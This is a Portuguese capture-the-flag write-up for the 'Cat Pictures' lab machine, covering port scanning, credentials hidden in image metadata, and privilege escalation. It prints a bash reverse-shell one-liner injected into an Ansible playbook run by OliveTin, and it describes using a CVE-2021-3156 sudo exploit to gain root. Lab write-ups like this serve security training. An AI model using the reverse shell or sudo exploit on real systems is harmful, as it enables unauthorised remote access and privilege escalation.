# _**Cat pictures CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


O scan nos retornou informações interessantes  
Além das que estão na imagem, temos  
* 3000/tcp open  http    Golang net/http server
* 8080/tcp open  http    SimpleHTTPServer 0.6

Vamos investigando cada um, primeiro, o que está na porta 80  
Um scan com <mark>Gobuster</mark> nos retorna a imagem abaixo
> ```bash
> gobuster dir --url http://[ip_address]:80/ -w ../seclists/Discovery/Web-Content/big.txt
> ```


E temos alguns diretórios, mas ao tentar acessar, temos código 403  
Vasculhando a página inicial, encontramos um formulário de login  



Algumas tentativas de SQL injection foram feitas, mas sem sucesso  
Com versão disponível, nenhum exploit foi encontrado  
Vamos para a porta 1337  



Na porta 3000, temos um website com formulário de login  



Tentamos algumas formas para entrar como, credenciais comuns e SQL injection, mas sem sucesso  
Agora, na poarta 8080, temos a página _default_ do **Nginx**  



Investigando um pouco mais cada porta por vulnerabilidades, nada foi encontrado  
Vamos focar nas imagens na página web na porta 80  
Realizando o download de cada uma e investigando primeiro com <mark>Exiftool</mark>, foi possível encontrar a seguinte informação   



Temos um novo diretório, vamos investigar  
Neste documento _.txt_, temos usuário e senha para o formulário de login da porta 3000  
Vamos testar  
Conseguimos login! Investigando o usuário e seus _uploads_, temos algumas informações importantes e nossa primeira flag  
A pista para a segunda flag nos indica que também está no repositório do usuário  
Investigando o arquivo _playbook.yaml_, temos o seguinte trecho de código  



Este código faz o seguinte:
* Se conecta a todos os hosts como o usuário bismuth
* Executa whoami para ver quem está executando os comandos
* Exibe a saída de whoami
* Executa um simples echo hi

Sabendo que o OliveTin na porta 1337 permite a execução de Ansible Playbooks, vamos substituir o comando por um simples payload de shell reverso ```bash -i >& /dev/tcp/[ip_address]/[port] 0>&1```  



E assim, podemos obter a segunda flag!

## _**Escalando privilégios**_
Vamos tentar escalar privilégios e encontrar a última flag  
Transferindo <mark>LinPeas</mark> para a máquina-alvo e executando, temos o seguinte retorno  
Algumas CVEs foram encontradas  
Uma delas chamou a atenção: **CVE-2021-3156**  



Vamos realizar o download do exploit através do link, transferir para a máquina-alvo, utilizar ```make```para gerar o exploit e executar  



Agora basta ir atrás da útlima flag
